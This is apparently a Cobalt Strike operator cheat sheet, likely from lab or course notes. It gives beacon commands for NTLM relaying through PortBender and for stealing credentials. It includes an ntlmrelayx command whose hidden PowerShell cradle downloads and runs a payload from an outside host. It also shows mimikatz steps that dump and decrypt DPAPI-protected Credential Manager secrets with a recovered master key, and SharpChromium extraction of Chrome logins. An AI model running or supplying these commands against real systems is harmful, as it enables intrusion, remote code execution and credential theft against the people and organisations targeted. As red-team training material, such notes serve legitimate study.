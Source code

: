 - NTLM relaying on CS with PortBender.cna

###### <font style="color:#00b3ff">Execute PortBender to redirect traffic from 445 to port 8445, forward to port 445 on Team server and relay it</font> 
```
beacon> PortBender redirect 445 8445
beacon> rportfwd 8445 127.0.0.1 445
beacon> socks 1080
root@kali:~# proxychains python3 /usr/local/bin/ntlmrelayx.py -t smb://10.10.17.68 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -c "iex (new-object net.webclient).downloadstring(\"http://10.10.17.231:8080/b\")"'
```


###### <font style="color:#00b3ff">List Credential Manager storages</font> 
```
beacon> ls C:\Users\bfarmer\AppData\Local\Microsoft\Credentials

beacon> run vaultcmd /listcreds:"Windows Credentials" /all

beacon> mimikatz vault::list
```

###### <font style="color:#00b3ff">Decrypt DPAPI credentials (provide master key location)</font> 
```
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7
```

###### <font style="color:#00b3ff">List master key location</font> 
```
beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120
```

###### <font style="color:#00b3ff">Get master key content</font> 
```
beacon> mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\a23a1631-e2ca-4805-9f2f-fe8966fd8698 /rpc
```

###### <font style="color:#00b3ff">Use the key to decrypt credentials</font> 
```
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7 /masterkey:0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df
```

###### <font style="color:#00b3ff">List and get Chrome credentials</font> 
```
beacon> ls C:\Users\bfarmer\AppData\Local\Google\Chrome\User Data\Default

beacon> execute-assembly C:\Tools\SharpChromium\bin\Debug\SharpChromium.exe logins
```
